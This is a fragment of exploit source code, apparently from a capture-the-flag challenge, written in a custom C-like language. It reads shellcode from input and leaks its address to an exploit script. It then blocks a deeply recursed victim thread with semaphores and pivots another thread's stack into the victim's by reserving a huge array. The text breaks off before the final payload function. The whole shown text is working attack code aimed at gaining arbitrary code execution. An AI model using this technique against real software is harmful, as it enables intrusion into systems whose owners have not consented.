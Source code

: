```c

// read in shellcode and determine its address
def void shellcode() {
    print("send code:");
    string sc = read(1024);
    sc_ref = new<string>(sc);

    // send string representation to exploit script
    print(sc_ref);
    // read parsed address
    sc_addr = bytes64(read(8));

    print("sc_addr: ");
    print(to_hex(sc_addr));
    print("\n");
}

// recurse deep, then wait for pwn thread
def void victim(uint64 depth) {
    if (depth > 0) {
        victim(depth - 1);
    }

    if (depth == 0) {
        print("reached depth, blocking victim\n");

        // unblock pwn thread
        up(sem_pwn);
        // block this thread
        down(sem_victim);

        print("victim unblocked\n");
    }
}

// entrypoint of pwn thread
def void pwn() {
    print("in pwn\n");

    // wait for victim thread
    down(sem_pwn);

    pwn_pivot();
}

// pivot stack from pwn thread to victim thread
def void pwn_pivot() {
    print("in pwn_pivot\n");

    // pivot stack by allocating a large array
    // array is declared below, but stack space is reserved at function entry

    // this call will never return
    pwn_do();

    // use array so it's not optimized away
    array<char, 276050> a;
    int32 i = 0;
    while (i < 276050) {
        a[i] = i;
        i = i + 1;
    }
    print(a[0]);
```